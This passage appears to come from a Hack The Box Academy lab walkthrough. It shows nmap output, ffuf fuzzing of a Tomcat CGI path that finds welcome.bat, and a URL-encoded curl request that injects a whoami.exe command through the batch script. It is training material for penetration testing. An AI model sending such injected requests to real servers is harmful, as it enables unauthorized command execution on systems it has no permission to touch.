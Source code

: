 ```
|   date: 2023-03-30T14:23:37
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 164.63 seconds
```

Confirming that the target is indeed running Tomcat on port 8080, students need to fuzz for CGI scripts using `ffuf`, finding `welcome.bat`:

Code: shell

```shell
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://STMIP:8080/cgi/FUZZ.bat
```

```
┌─[us-academy-2]─[10.10.15.12]─[htb-ac-594497@htb-geylz278ib]─[~]
└──╼ [★]$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.205.30:8080/cgi/FUZZ.bat
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

welcome                 [Status: 200, Size: 81, Words: 14, Lines: 2, Duration: 99ms]
:: Progress: [4614/4614] :: Job [1/1] :: 3145 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

Students need use `welcome.bat` to run `whoami` from `c:\windows\system32\whoami.exe`, making sure to URL-encode it before sending it. Students will find that the tomcat user is running as `feldspar\omen`:

Code: shell

```shell
curl 'http://STMIP:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe'
```
